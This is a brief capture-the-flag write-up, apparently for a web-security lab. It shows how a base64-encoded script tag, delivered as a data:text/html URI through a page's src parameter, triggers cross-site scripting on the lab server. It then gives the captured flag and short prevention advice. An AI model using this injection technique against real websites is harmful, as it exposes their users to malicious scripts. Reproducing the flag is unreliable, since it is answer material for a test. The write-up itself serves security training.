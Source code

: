 
```
echo "<script>alert(1337)</script>" | base64
PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=
```

<object data="http://10.12.100.231/images/nsa_prism.jpg"> </object>

data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=

url:

http://10.12.100.231/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=

flag `928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D`

https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/

## # Prevention

Input validation

Output encoding: Encode all output that is generated by the web application before sending it to the user's browser.

Use HTTP-only cookies